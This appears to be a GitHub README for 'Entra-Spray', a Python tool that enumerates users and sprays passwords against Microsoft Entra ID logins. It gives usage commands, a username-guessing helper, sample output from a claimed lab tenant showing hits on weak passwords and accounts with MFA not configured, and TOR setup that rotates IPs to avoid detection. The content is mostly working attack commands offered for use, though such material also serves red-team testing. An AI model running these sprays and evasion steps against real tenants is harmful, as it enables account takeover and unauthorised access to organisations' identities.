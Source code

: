 # Entra-Spray
Python tool that allows you to perform Password Spray and User Enumeration tests against Entra ID, with Microsoft login service (login.microsoftonline.com).

The tool recreates the real Microsoft login flow to check:
1. Whether a user exists in Entra ID
2. Whether the password is correct
3. Whether there is a reference to a Federated server

## Main capabilities:
-  Argument (-Check) for checking if user identity exsit in Tenant (after muliple requests it might be False Positive)
-  Argument (-ProxyTor) for route all traffic vit TOR (renew ip after every 4 min..) - This feature comes to solve the problem of False Positive
   Settings adjustment required before using this argument
- Argument (-firstname) and (-lastname) and (-tenantname) for make combination from employee's name until finding the vaild user

### Install:

```bash
pip install httpx
pip install httpx[http2]
pip install httpx[socks]
pip install stem
```

```python
Entra-Spray.py [-h] -user username@doamin.com | path-to-usernames-file -pass password | path-to-passwords-file  [-check] [-ProxyTor] # authentication to Microsoft
Entra-Spray.py [-h] -user username@doamin.com | path-to-usernames-file  [-check] [-ProxyTor] # Just for user validation
Entra-Spray.py [-h] -firstname Shaked -lastname Wiessman -tenantname Shak.com [-ProxyTor] # for Finding the vaild combination
```

Using UserName-Combain.py:
```python
UserName-Combain.py -input names.txt -output username.txt -tenantname @shak.com -style firstl | first | last | firstlast | first.last | last.first | lastfirst | firstL | lastF | firstL2 | firstL3 | lastF2 | lastF3 | fl | lf | l.first | f.last | first.l | last.f | all 
```

### Usage:

the tenant and the upns is a part of a LAB enviroment in Entra ID :]

#### Checking If User Exist:
```python
python3 Entra-Spray.py -user list-of-usernames.txt -check

[✓] Username: shoshi@entraspraytenant.onmicrosoft.com is exists
[✓] Username: david@entraspraytenant.onmicrosoft.comis exists
[✗] Username: dan@entraspraytenant.onmicrosoft.com not exists
[✓] Username: normuser@entraspraytenant.onmicrosoft.com is exists
[✓] Username: shakedwiessman@entraspraytenant.onmicrosoft.com is exists


----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Checking If User Exist with TOR routing (-proxytor flag):
```python
python3 Entra-Spray.py -user list-of-usernames.txt -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.228.160.190"}
[✓] Username: shoshi@entraspraytenant.onmicrosoft.com is exists
[✓] Username: david@entraspraytenant.onmicrosoft.com is exists
[✗] Username: dan@mentraspraytenant.onmicrosoft.com not exists
[✓] Username: normuser@entraspraytenant.onmicrosoft.com is exists
[✓] Username: shakedwiessman@entraspraytenant.onmicrosoft.com is exists

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack:
```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456'

[-] Failed to authenticate with shoshi@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured
[-] Failed to authenticate with normuser@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists
[-] Failed to authenticate with shakedwiessman@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack with '-check' flag:
```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456' -check

[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack with '-check' flag and with TOR routing:
The script will check if:
- The user is required to have MFA but has not yet set it up
- The user is required to have MFA
- The user is required to change their password
  
```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.228.160.190"}
[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Bb123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"110.22.66.190"}
[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[!] NOT-success: david@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[✓] User shakedwiessman@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Bb123456, MFA required

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Cc123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.172.188.113"}
[✓] User shoshi@entraspraytenant.onmicrosoft.com is exist, and Password needs updating: Cc123456
[!] NOT-success: david@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```
## Usage with TOR:

### Install:

```bash
sudo apt update
sudo apt install torsocks -y
sudo apt install libtorsocks0 -y
```


1) Start TOR:

  ```bash
  sudo systemctl start tor@default
  ```

2) open /etc/tor/torrc file and add:

  ```bash
  ControlPort 9051
  CookieAuthentication 1
  ```

3) Create symlink:

  ```bash
  sudo ln -s /usr/lib/x86_64-linux-gnu/torsocks/libtorsocks.so /usr/lib/x86_64-linux-gnu/libtorsocks.so
  ```

4) Restart TOR:

  ```bash
  sudo systemctl restart tor@default
  ```

5) Check if TOR is working:
  ```bash
  netstat -tulpen | grep 9050
  torsocks curl https://api.ipify.org
  torsocks curl https://check.torproject.org | grep -i "Congratulations"
  ```


